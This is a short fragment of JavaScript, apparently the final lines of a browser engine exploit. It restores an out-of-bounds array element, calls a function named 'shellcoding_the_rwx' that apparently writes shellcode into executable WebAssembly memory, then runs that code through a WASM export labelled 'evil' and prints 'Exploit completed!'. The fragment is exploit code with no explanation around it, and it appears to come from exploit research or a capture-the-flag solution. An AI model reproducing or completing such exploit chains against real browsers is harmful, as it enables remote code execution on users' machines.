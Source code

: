 ```js
      // Restoring to garauntee the condition for proper usage
      oob_Array[backing_store_index] = backup;
  }

shellcoding_the_rwx();
var evil = wasmInstance.exports.main;;
console.log("[++++] Calling evil function")
evil();
console.log("[*] Exploit completed!");
```

